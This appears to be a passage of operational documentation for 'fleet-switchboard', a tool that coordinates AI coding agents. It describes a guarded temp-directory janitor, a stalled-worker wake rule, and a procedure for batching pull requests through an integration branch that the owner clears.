Agents leave scratch in the opencode temp directory (the system temp directory's `opencode` folder, or `temp_janitor.dir`) and nothing removed it. `fleet-switchboard disk janitor` lists, and `disk janitor --apply` removes, the TOP-LEVEL entries of that directory (each file, or each directory as a unit) that pass ALL of these tests: the latest modification, change or birth time of the entry and of anything inside it is older than `temp_janitor.days` (default 7; the change time is what a restore with `tar`, `cp -a`, `rsync -a` or `docker cp` cannot fake; a tree with too many files to judge is kept); **nothing is using it**: no herdr pane (an agent's or a plain terminal) works in it, no non-retired agent's OpenCode session runs in it (the worktree rules' checks), and no live process has it as its working directory (one `lsof -a -d cwd -Fn` per run); if any of these cannot be read, or `lsof` lists more than 200000 lines, the entry is kept and the line says why (so a machine with no `lsof` keeps everything). **Limits:** `lsof` runs as the user and sees that user's processes; an open file inside an entry that is not a working directory is not seen; the process list is taken once per run, so a process that moves into an entry between the scan and its removal is not seen (the re-check compares the entry's times and identity, which narrows that window and does not close it); **no record of the fleet names it**: its full path, or its name when that is at least six characters, does not occur in any `*.json` or `*.jsonl` file of the state directory (reminders, pending sends, order notices, decisions, the recent audit and the rest; a big file is read by its tail, compressed archives are not read); no glob of `temp_janitor.keep` matches its name or path; it holds no `.fleet-keep` marker file at its top; and it belongs to the user running the command. A symlink is removed as a link and never followed; a directory is removed without following any link inside it; the temp directory itself is never removed, and a temp directory that is a link, is owned by someone else, is the root or the home directory, or is not inside the system temp directory (or is that directory itself) is refused. An entry with another device mounted inside it is kept. **Records older than the tail are not seen** (a big state file is read by its last 2 MB), and **if a state file cannot be read, the total limit is passed, or the state directory holds no record at all, the janitor judges nothing** (every entry is kept and the line says why). Right before each removal the entry is judged again from the records as they are then, and removed only if it is still eligible and is the same entry (device, inode and newest modification time); an audit line that cannot be written stops the removing. **What it cannot see:** a path that is only written in a GitHub issue, a brief on GitHub or an agent's own memory is not named in any local record, so protect such a path with a `.fleet-keep` file or a keep glob, or keep it newer than the age. A dry run is the default and prints what would go and why each old entry is kept; `--apply` is the operator's or the Chief of Staff's (an ordinary agent is refused), removes at most 500 entries per call, and writes one `temp.removed` audit line per entry (name, bytes, age). `"temp_janitor": {"enabled": false}` removes nothing even with `--apply`; the other keys are `days` (1 to 365), `keep` (a list of globs) and `dir` (an absolute path). The daemon itself applies it once a week (#762): it runs the same selection rule in its own process (the Docker reaper's path, never a flag or an environment variable an agent could pass; the command-line refusal of an agent stays), on a background thread within `temp_janitor.weekly_scan_seconds`, and keeps the time of the last run in `temp-janitor-daemon.json` (never twice within 6 days; a stamp it cannot read means it does not run). **Until `temp_janitor.daemon_apply` is true (the default is false; the Chief of Staff or the owner turns it on after reading the list) every weekly run is a dry run**: nothing is removed, the cursor does not move, and one `janitor.would_remove` audit line lists the names that would go. With the switch on it removes, writes the usual `temp.removed` line for each entry and one `janitor.summary` line (count, bytes, the names of the removed entries and nothing else, the budget and the time used, and why anything was kept), and any doubt keeps the entry. `temp_janitor.enabled` false turns the daemon's run off too. The boundary is the daemon's single-instance run lock and the configuration file, which the user who runs the daemon owns: whoever can edit that file can turn `daemon_apply` on, so keep it writable by that person only. **Once the daemon applies it, the janitor half of the launchd job is redundant** (the second command, `disk janitor --apply --weekly`); the plist is the owner's file and is not edited by this change. Without the daemon, nothing runs it on its own unless you install the weekly job below.

**The scan resumes where it stopped (#469).** The scan judges the entries in name order under a time budget (`temp_janitor.scan_seconds`, default 60 s; the weekly job, `disk janitor --apply --weekly`, uses `temp_janitor.weekly_scan_seconds`, default 600 s). Past the budget the entries it did not reach are **not judged**: never removed, and not reported as kept for a reason. A real (`--apply`) run records the last name it judged in `temp-janitor-cursor.json` in the state directory (a NAME, mode 0600, written only when it changes), and the next run starts at the next name in order, so over a few runs every entry is judged whatever the load; a scan that reaches the end clears the cursor and says `cycle complete`. A missing, empty or corrupt cursor means start at the first name, never an error. A dry run reads the cursor and does not move it. Every run says `N judged, M not judged`. **The weekly job runs it.** The documented weekly launchd job (see `disk prune` above) runs `disk prune` and then `disk janitor --apply --weekly` (a `;`, so the janitor runs even when the prune refuses). `disk janitor --apply --weekly` removes only top-level entries older than `temp_janitor.days` (7 by default) that no record of the fleet names, that nothing is using, and that were judged **in that run** (the scan resumes from the cursor, so over a few weekly runs every entry is reached); every removal is audited (`temp.removed`) and printed. Other installs: the same two commands in a cron line, for example `0 4 * * 0 /home/user/.local/bin/fleet-switchboard disk prune; /home/user/.local/bin/fleet-switchboard disk janitor --apply --weekly`. Before you install it, run `disk janitor` (a dry run, which does not move the cursor) and read what it would remove; the protections it relies on unattended are the `temp_janitor.keep` globs, a `.fleet-keep` marker at the top of an entry you want kept, at most 500 removals per run, and `"temp_janitor": {"enabled": false}`, which turns `--apply` off. A path named only in a GitHub issue or in an agent's own memory is not protected: use a keep glob or a marker. The `temp.removed` lines are in the audit log in the state directory, and the job's own output goes to the log named in the plist (the example uses a path under the state directory, not `/tmp`).


**An external key command names its subscription.** When `external_decisions` is on and its mapping file's `key_source` is a command that starts with `az` and has no `--subscription`, loading the configuration warns once on stderr: it names the key and the fix (`--subscription <id>`) and **never prints the command's other arguments** (a vault and a secret name stay out). Without the option the command used whichever subscription was active and failed when that changed.

**Working reports with no movement (#811).** A coder or tester (never on a charter) whose last consecutive reports were all `working` for `stalled_working_hours` (default 2) while nothing it owns moved wakes its boss once, with `no movement for <time> on <ref> (worker <name>, <N> working reports; last: <line>)`; the worker is never nagged. Movement is the pull request's head and updated time and the issue's updated time, as the daemon already holds them (no GitHub call). No wake while a reminder naming the issue is due later, a check at the head is running, the ask or the pull request carries an awaiting label, the last report is `blocked` or `question`, or a human decision for the pull request exists. It judges only when the open-PR list, the issue list and the decision list were read whole. One wake per stretch; a second only after the head or an updated time moves and it stalls again. Limits, stated: the rule is inert for a repository outside `plan_gates` (that is what keeps the open-PR list, marked `pulls:<repo>` in the read-whole registry only by that pass) and when the triage issue list is off; an open-PR list read more than 20 minutes ago is not judged; the check-running guard sees checks only for a pull request the daemon examined, which is one with a `PLAN:` link; when several open pull requests name the issue, the newest-moved one is judged; an idle worker is the idle-at-a-seam rule's alone (never woken a second time here); a daemon restart forgets which head it saw change, so one repeat wake is possible after a restart.

## Batching: the integration branch and the batch pull request (#834)

Typical work reaches the default branch in batches, so the owner clears one pull request per repository and can test a whole batch in one stack. This section is the procedure; it changes no gate, no hold and no workflow. It applies only to a repository that has an `integration` branch: batching is opt-in per repository, the Chief of Staff's lane creates the branch (`git push origin origin/<default>:refs/heads/integration`, once, with the owner's word), and a repository without it merges as today.

### What batches and what goes straight

Every change with an approved plan and a passing independent review merges into `integration`. Two kinds go straight to the default branch: an urgent fix (the Chief of Staff's waiver, logged) and anything the owner asks for alone. A change the impact floor holds is batched like any other, and the holds are the matrix's own. Only a change to credentials, identity or who may do what holds for the owner (`owner_hold` in `impact-matrix.json`); every other floor path or rating asks for a second independent review and the usual checks decide. So:

- **Today.** A pull request into `integration` is rated and held on its own diff like any other, and a held one is cleared by the owner on that pull request (`impact clear <repo#N> --reason ...` in the owner's terminal).
- **Target, after #835 lands.** The Chief of Staff's delegated clear (`impact clear --under-order N`, Serious and below) applies to such a pull request. It stays OFF until a numbered line of the owner's own standing-orders file is listed under `delegated_clear` in the configuration and matched by its hash (a comment on an issue is not that), and it refuses a change to credentials or identity, a top-tier review class, or a pull request with no review recorded at its head.
- **The batch pull request** is judged by the floor on its own aggregated diff into the default branch, so it holds for the owner when any member touched a top-tier path until #835 lands, then only when a row is rated High (otherwise almost every batch would hold), whoever cleared that member earlier.

Keep `integration` current with the default branch before a pull request opens into it: fast-forward it, or merge the default branch into it when it holds unbatched members; a stale `integration` makes the diff and the impact floor read the whole difference.

### The cadence and who keeps the batch

The batch pull request is opened daily at the hour the Chief of Staff's lane records in the charter's queue (one hour per repository); a day with no change opens none. The Chief of Staff's lane opens it, keeps its table current until the freeze, and tells the owner when it is ready. After the batch merges, the owning orchestrator closes each work item and ask whose change it carried (a pull request's `Closes #N` is honoured only on the default branch, so it does not close them).

### The freeze

The freeze starts when the batch pull request is taken out of draft (its title says `ready for the owner's clear`; no label is created), and ends when it merges or is returned to draft. While it stands nothing merges into `integration`; new changes wait for the next batch and their pull requests stay open. Until a ruleset enforces it, the freeze is a rule the lanes follow; a report of merges into `integration` while a batch is ready is a planned follow-up (not built).

A merge during the freeze moves the batch's head and voids the owner's clear (it is head-bound). The lane then returns the batch to draft, refreshes the table, tells the owner the clear is void, and marks it ready again; the change is kept, because reverting would be a second merge into `integration`. A sync (below) during the freeze is a merge too: it waits until the batch merges, unless an urgent fix made the batch conflict or go stale, in which case the lane ends the freeze, syncs, refreshes the table and marks it ready again, and the clear is void like any other.

### The sync

The default branch is merged into `integration` by a true merge after every direct merge to the default branch (an urgent fix, a change the owner asked for alone) and before the batch pull request is marked ready. If that merge conflicts with pending changes, the Chief of Staff's lane resolves it in a pull request into `integration` (a branch off `integration` that merges the default branch), reviewed like any change. After a squash-merged batch, the default branch is merged into `integration` again before the next change merges into `integration` (the content is the same, so the merge is trivial; skipped, the next change and the next batch diff carry the already-merged content). The repository's "delete head branch on merge" setting must be off for `integration`, or the branch protected, since the batch's head is `integration`.

None of these is ever part of the procedure: a force push, a rebase of a shared branch, an agent changing a ruleset.

### An ask whose change is only in `integration`

Its ask stays open, with a comment naming the batch pull request. Its live-check clock starts when the batch merges. The sweep's "ask open though its pull request merged" warning (T12) is expected for such an ask until the follow-up below teaches the daemon; the Chief of Staff's lane ignores it meanwhile and the owner is not asked about it.

### The steps a lane follows

1. A change is planned and reviewed as usual, and its pull request is opened into `integration` (`gh pr create --base integration`); CI runs on it. A top-tier change is held for the owner and cleared on its own pull request (`impact clear <repo#N> --reason ...`).
2. After the independent review passes at the head and the gates read `gates <repo#N>`, the change merges into `integration` (`gh pr merge <N>`) unless a batch is out of draft (ready); then it waits.
3. After every direct merge to the default branch: `git fetch origin`, `git checkout integration`, `git merge origin/<default>` (never a rebase), push.
4. At the day's hour the Chief of Staff's lane opens the batch pull request (`gh pr create --base <default> --head integration --draft`), with the body template below, one row per change.
5. It re-syncs (step 3), refreshes the table, runs the independent review of the batch at its head, then marks it ready (`gh pr ready <N>`, and a title that says `ready for the owner's clear`) and tells the owner (`fleet-switchboard notice pr <repo#N>`).
6. The owner clears at the exact head and the batch merges. The lane merges the default branch into `integration` (step 3), and the owning orchestrators close the asks that were carried.

### The batch pull request body (template)

The body is the owner v2 body plus one table with a row per change. Use neutral names as in the example.

```markdown
## Why this needs you
<1 to 3 sentences: what the batch is and why the owner's clear is needed.>

## What changes for you
| Before | After |
|---|---|
| Each change waited for your clear. | One batch, cleared once. |

## Example
<a concrete example of one thing that behaves differently>

## Changes in this batch
| Change | Impact | Hold reasons and who cleared them | Evidence |
|---|---|---|---|
| acme-org/widget-service#123: add a retry to the export job | Marginal | none | plan: acme-org/widget-service#120 comment; review: pass at its head; CI: green |

## Questions for you
1. <a question>. Recommendation: <the answer you recommend>.
```

### Owner decisions and follow-up asks

Each decision was walked against the matrix (its owner-hold meaning and its rating table) and the commands (`impact clear`, `impact clear --under-order`, `gh pr`, `git merge`).

- **D1**, the impact floor treatment of changes into the integration branch (decided: option A as a target, the Chief of Staff, 18:05Z, under the owner's standing order): changes into `integration` are rated and held as usual; today the owner clears a top-tier change on its own pull request, and the Chief of Staff's clear up to Serious applies once #835 is built and its order is configured; the batch pull request holds for the owner when any member touched a top-tier path until #835 lands, then only when a row is rated High. No floor path changes. Not chosen: the floor skips the per-change hold (stays an owner option if the pilot shows the per-change clears cost too much), and held changes not batched.
- **D2**: enforce the freeze with a ruleset on `integration`. Recommendation: yes if the owner is willing; otherwise the lanes' rule stays the control.
- **D3**: batch size against the review checkout's limits. Recommendation: cap a batch at what the checkout accepts, and split a larger one.
- **Follow-up asks** (each its own ask): a script that renders the batch table; the daemon's treatment of an ask whose change is in a non-default branch (T12) and of reference runs for `integration` (and a `push` run of CI on `integration`; pull requests into it already run CI, as the workflow has no branch filter); a report of merges into `integration` while a batch is ready.
